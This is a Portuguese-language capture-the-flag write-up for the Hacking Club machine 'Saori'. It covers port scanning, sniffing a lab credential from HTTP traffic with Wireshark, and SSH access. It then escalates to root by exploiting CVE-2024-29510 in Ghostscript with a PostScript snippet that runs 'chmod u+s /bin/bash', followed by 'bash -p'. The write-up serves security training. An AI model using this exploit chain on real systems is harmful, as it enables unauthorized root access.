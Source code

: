 ```yaml
---
title: 'Saori Writeup'
date: '2024-07-27'
tags: ['CVE-2024-29510', 'Linux']
draft: false
summary: 'Writeup do CTF Saori da Hacking Club.'
images: ['/static/images/saori-writeup-images/1.png']
authors: ['default']
---
```


![Saori 1](/static/images/saori-writeup-images/1.png)

## **Plataforma**: Hacking Club

### **Dificuldade:** Easy

### **Nome**: Saori

---

### Port Scanning

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 da:cf:66:16:98:0d:7c:69:17:3a:09:dc:a1:c1:1e:cd (ECDSA)
|_  256 0c:31:6e:b6:4a:88:39:35:72:02:1b:6b:fa:df:44:91 (ED25519)
80/tcp open  http    Apache httpd 2.4.58
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Blog
|_http-server-header: Apache/2.4.58 (Ubuntu)
Service Info: Host: ip-172-16-4-216.ec2.internal; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Somente as portas 22 (SSH) e 80 (HTTP) estão abertas.

## Enumeration

`sudo vim /etc/hosts`
![Saori 2](/static/images/saori-writeup-images/2.png)

![Saori 3](/static/images/saori-writeup-images/3.png)

Depois de baixar o client, a gente executa ele e captura o trafego com o wireshark.

`chmod +x client`
`./client`

Quando executamos ele baixa um arquivo chamado `game.sfc`
![Saori 4](/static/images/saori-writeup-images/4.png)

Interceptei o download do game.sfc com wireshark:
![Saori 5](/static/images/saori-writeup-images/5.png)

![Saori 6](/static/images/saori-writeup-images/6.png)
Achamos as credenciais do user abner no campo authorization do HTTP capturado pelo wireshark.
Credentials: `abner:m0V55O1qm78MyEluU`

## Foot Hold

`ssh abner@172.16.4.216`
![Saori 7](/static/images/saori-writeup-images/7.png)

---

## Privillege Escalation

`sudo -l`
![Saori 8](/static/images/saori-writeup-images/8.png)

Essa versão do gs tem uma CVE:
`gs --version`
![Saori 9](/static/images/saori-writeup-images/9.png)

[https://codeanlabs.com/blog/research/cve-2024-29510-ghostscript-format-string-exploitation/](https://codeanlabs.com/blog/research/cve-2024-29510-ghostscript-format-string-exploitation/)
A CVE original executa a calculadora do gnome , basta alterar pro comando que a gente quiser.

```python
% And now `path_control_active` == 0, so we can use %pipe%

(%pipe%chmod u+s /bin/bash) (r) file

quit
```

`sudo /usr/local/bin/gs -q -dNODISPLAY -dBATCH -dSAFER /root/../tmp/exploit.eps`
![Saori 10](/static/images/saori-writeup-images/10.png)

`bash -p`
![Saori 11](/static/images/saori-writeup-images/11.png)

---

## Proof

![Saori 12](/static/images/saori-writeup-images/12.png)
